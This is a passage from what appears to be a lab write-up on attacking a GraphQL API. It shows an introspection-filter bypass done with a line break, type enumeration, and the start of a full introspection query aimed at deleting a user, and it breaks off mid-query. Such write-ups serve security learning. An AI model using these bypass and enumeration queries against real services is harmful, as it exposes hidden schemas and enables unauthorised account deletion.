 Ups doesn't work, remember to the "bypass"(do an enter)

```
query {
  __schema 
{
    types {
      name
    }
  }
}
```

We see that we have "DeleteOrganizationUserInput", "DeleteOrganizationUserResponse" and "User".

We can check if there is a user schema(that the type User exists)

```graphql
query {
  __type
    (name: "User") {
    name
  }
}
```

The idea is to delete an account, but if we search by "Account" we obtain a null response, this means that we are going to delete a user not an account.

Now we can do the introspection query to check all the schemas in the graphql endpoint.

```graphql
query IntrospectionQuery {
    __schema 
    {
        queryType {
            name
        }
        mutationType {
            name
        }
        subscriptionType {
            name
        }
        types {
            ...FullType
        }
        directives {
            name
            description
            locations
            args {
                ...InputValue
            }
        }
    }
}

fragment FullType on __Type {
    kind
    name
    description
    fields(includeDeprecated: true) {
        name
        description
        args {
            ...InputValue
        }
```